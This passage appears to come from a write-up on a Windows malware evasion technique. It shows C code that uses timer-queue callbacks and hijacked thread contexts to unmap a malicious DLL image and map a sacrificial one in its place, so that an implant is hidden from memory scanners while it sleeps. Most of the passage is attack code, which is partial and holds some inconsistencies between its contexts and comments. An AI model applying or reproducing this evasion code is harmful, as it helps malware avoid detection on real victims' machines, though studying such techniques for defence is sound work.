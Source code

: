 How do I want to execute them? 

Well, I like the idea of having a timer and NtContinue is not the only function that can be used to (re)start a thread, also these above are in a suspended state. ResumeThread to the rescue!

```c
ResumeThreadAddress = GetProcAddress(GetModuleHandleA("kernel32.dll"), "ResumeThread");

if (ResumeThreadAddress != NULL) {
    CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[0], 100, 0, WT_EXECUTEINTIMERTHREAD);//unamp
    CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[1], 200, 0, WT_EXECUTEINTIMERTHREAD);//mapsac
    CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[2], 7000, 0, WT_EXECUTEINTIMERTHREAD);//unmap
    CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[3], 7100, 0, WT_EXECUTEINTIMERTHREAD);//mapmal

    WaitForMultipleObjects(4, ThreadArray, TRUE, INFINITE);
}
```

And how do I want to tell threads what to do? 

Context Matters, even for sle(a)ping:

```c
    CONTEXT* context = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* contextB = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* contextC = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* contextD = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));

    HANDLE ThreadArray[4] = { NULL };

    context->ContextFlags = CONTEXT_ALL;
    contextB->ContextFlags = CONTEXT_ALL;
    contextC->ContextFlags = CONTEXT_ALL;
    contextD->ContextFlags = CONTEXT_ALL;
    
    [...]
    
    GetThreadContext(ThreadArray[0], context);//unmap
    GetThreadContext(ThreadArray[1], contextB);//mapex
    GetThreadContext(ThreadArray[2], contextC);//unmap
    GetThreadContext(ThreadArray[3], contextD);//mapex
    
    //exit gracefully 
    *(ULONG_PTR*)((*context).Rsp) = (DWORD64)ExitThread;
    (*context).Rip = (DWORD64)UnmapViewOfFile;
    (*context).Rcx = (DWORD64)(ImageBaseDLL);

    *(ULONG_PTR*)((*contextB).Rsp) = (DWORD64)ExitThread;
    (*contextB).Rip = (DWORD64)MapViewOfFileEx;
    (*contextB).Rcx = (DWORD64)sacDllHandle;
    (*contextB).Rdx = FILE_MAP_ALL_ACCESS;
    (*contextB).R8 = (DWORD64)0x00;
    (*contextB).R9 = (DWORD64)0x00;
    *(ULONG_PTR*)((*contextD).Rsp + 40) = 0x00; //the offset must be either hex 28 or int 40
    *(ULONG_PTR*)((*contextD).Rsp + 48) = (ULONG_PTR)ImageBaseDLL;

    *(ULONG_PTR*)((*contextC).Rsp) = (DWORD64)ExitThread;
    (*contextC).Rip = (DWORD64)UnmapViewOfFile;
```
